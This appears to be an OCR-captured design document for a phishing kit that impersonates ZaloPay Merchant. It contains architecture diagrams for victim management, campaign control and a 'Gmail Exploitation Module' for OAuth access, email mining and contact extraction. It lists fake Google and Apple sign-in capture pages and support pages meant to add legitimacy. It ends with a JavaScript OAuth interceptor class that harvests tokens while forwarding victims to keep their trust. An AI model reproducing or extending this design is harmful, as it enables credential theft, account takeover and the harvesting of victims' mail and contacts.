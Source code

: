 ```
│  │ Dashboard   │ │ Victim Mgmt │ │ Campaign Control        │ │
│  └─────────────┘ └─────────────┘ └─────────────────────────┘ │
└─────────────────────────────────────────────────────────────┘
┌─────────────────────────────────────────────────────────────┐
│                 Gmail Exploitation Module                  │
│  ┌─────────────┐ ┌─────────────┐ ┌─────────────────────────┐ │
│  │OAuth Access │ │ Email Mining│ │ Contact Extraction      │ │
│  └─────────────┘ └─────────────┘ └─────────────────────────┘ │
└─────────────────────────────────────────────────────────────┘
┌─────────────────────────────────────────────────────────────┐
│                 Database & Storage Layer                   │
│  ┌─────────────┐ ┌─────────────┐ ┌─────────────────────────┐ │
│  │ MongoDB     │ │ Redis Cache │ │ Encrypted File Storage  │ │
│  └─────────────┘ └─────────────┘ └─────────────────────────┘ │
└─────────────────────────────────────────────────────────────┘
```

### Core System Components

#### 1. Frontend Victim Interface
**Technology Stack**: HTML5, CSS3, JavaScript (Vanilla + jQuery), Bootstrap 5
**Primary Components**:
- `index.html` - ZaloPay Merchant landing page với business-focused content
- `auth_signup.html` - Authentication entry point với social login options
- `google_auth.html` - Google OAuth capture interface với realistic redirect flow  
- `apple_auth.html` - Apple ID authentication capture với Sign in with Apple integration
- `auth_success.html` - Post-authentication redirect page để maintain user trust
- `auth_error.html` - Error handling page với realistic error messages
- `contact.html`, `faq.html`, `guide.html` - Support pages để tăng legitimacy

**Key Features**:
```javascript
// OAuth Interception Engine
class OAuthInterceptor {
    constructor() {
        this.providers = ['google', 'apple', 'facebook'];
        this.captureEndpoint = '/api/capture/oauth';
    }
    
    interceptOAuthFlow(provider, originalCallback) {
        // Capture tokens before forwarding to legitimate provider
        const interceptedCallback = this.createInterceptCallback(originalCallback);
        
        // Maintain user experience while harvesting credentials
        return this.initiateOAuthWithCapture(provider, interceptedCallback);
    }
    
    createInterceptCallback(originalCallback) {
        return (authResult) => {
            // Extract and store tokens
            this.captureTokens(authResult);
            
            // Forward to original callback to maintain flow
            originalCallback(authResult);
        };
    }
}
```
